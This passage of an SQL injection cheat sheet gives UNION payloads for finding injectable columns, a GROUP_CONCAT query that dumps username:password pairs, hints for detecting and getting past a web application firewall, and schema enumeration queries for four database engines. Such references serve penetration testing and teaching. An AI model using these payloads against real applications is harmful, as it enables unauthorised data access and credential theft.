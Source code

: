 ### **Discovering Injectable Columns**

```sql
' UNION SELECT 1,NULL--
' UNION SELECT NULL,2--
' UNION SELECT 1,2,3--
```

→ Replace `NULL` with strings or numbers to identify reflected output.

### Group_Concat

Helpful for extracting multiple rows in a single query.

```sql
SELECT GROUP_CONCAT(username, ':', password SEPARATOR ',') FROM users;
```

> Use with INFORMATION_SCHEMA:
> 

```sql
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database();
```

→ This is for MySQL only. Other databases have different functions

### **Detecting WAF Presence**

Sometimes WAFs block specific patterns. We can fingerprint them:

| Test | What it Indicates |
| --- | --- |
| `' AND 1=1--` vs `' AND 1=2--` | If both return same result → WAF |
| Encoded payload blocked | WAF may block `%27` |
| Delays blocked | Sleep functions might be filtered |

We can then **bypass** with encodings, obfuscation, or **time-based fuzzing**.

### **Extracting DB Info**

| Info | MySQL | PostgreSQL | Oracle | MSSQL |
| --- | --- | --- | --- | --- |
| Current DB | `SELECT database();` | `SELECT current_database();` | `SELECT ora_database_name FROM dual;` | `SELECT DB_NAME();` |
| Current User | `SELECT user();` | `SELECT user;` | `SELECT user FROM dual;` | `SELECT SYSTEM_USER;` |
| All DBs | `SELECT schema_name FROM information_schema.schemata;` | same | `SELECT name FROM v$database;` | `SELECT name FROM master..sysdatabases;` |
| All Tables | `SELECT table_name FROM information_schema.tables;` | same | `SELECT table_name FROM all_tables;` | `SELECT table_name FROM information_schema.tables;` |
| All Columns | `SELECT column_name FROM information_schema.columns WHERE table_name='users';` | same | `SELECT column_name FROM all_tab_columns WHERE table_name='USERS';` | same |

→ For Oracle, **`SELECT ora_database_name FROM dual;`** requires Oracle 12c+. For older versions, use **`SELECT name FROM v$database;`**
